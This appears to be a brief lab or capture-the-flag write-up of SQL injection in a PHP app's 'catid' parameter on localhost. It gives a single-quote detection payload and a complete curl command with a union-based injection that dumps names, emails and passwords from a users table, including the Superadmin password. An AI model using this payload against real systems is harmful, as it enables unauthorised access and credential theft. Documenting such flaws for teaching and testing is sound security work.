


1. Category field was vulnerable to SQL injection
2. You can detect it by adding single quote `'` to the end of `catid` parameter => `item=&description=&catid=1000'`

3. Then you could have exploited it using union based injection
```sh
curl 'http://localhost:8080/welcome.php' -X POST  -H 'Content-Type: application/x-www-form-urlencoded'  --data-raw 'item=&description=&catid=1000 union select firstname , email ,password  from users --'
```
and you can get password of `Superadmin` 